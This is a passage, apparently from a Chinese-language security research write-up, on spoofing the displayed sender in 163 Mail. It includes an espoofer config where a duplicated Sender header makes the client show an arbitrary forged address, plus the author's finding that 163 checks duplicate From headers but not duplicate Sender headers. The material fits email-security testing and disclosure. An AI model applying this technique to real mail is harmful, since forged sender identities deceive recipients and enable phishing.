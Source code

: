 发送成功，但同样会显示代发方。

尝试使用Attempt1相同的方法，删除Sender字段，但仍然会显示代发邮箱号。

此处，我尝试了各种方法，最终发现：当在other_header中再添加一个Sender字段，**邮件界面将会显示任意伪造的代发邮箱**！

config:

~~~py
"client_a3": {
	"helo": b"espoofer-MacBook-Pro.local",
	"mailfrom": b"<attacker@example.com>",
	"rcptto": b"<victim@victim.com>",
	# "dkim_para": {"d":b"attack.com", "s":b"selector", "sign_header": b"From: <first@legitimate.com>, <second@attack.com>"},
	"data": {
	"from_header": b"From: <admin@example.com>\r\n",
	"to_header": b"To: <victim@victim.com>\r\n",
	"subject_header": b"Subject: client A3: Spoofing via an email service account\r\n",
	"body": b"Hi, this is a test message! Best wishes.\r\n",
	"other_headers": b"Date: " + get_date() + b"\r\n" + b'Sender: <s@sender.legitimate.com>\r\nSender: 12345678@qq.com\r\nContent-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
	},
  # ---------------------
  # 在此处other_headers中添加一个额外的"Sender: 12345678@qq.com\r\n"字段, 即有两个"Sender: ..."
  # ---------------------
	"description": b"Spoofing via an email service account, refer to section 6.2 in the paper."
},
~~~

最终邮件界面为

<img src="report/163_3.jpg" style="zoom:50%;" />

My insights：163邮箱会对mutiple from field进行检测，但不会对mutiple sender field进行检测，并且显示结果只会显示一个sender。

---
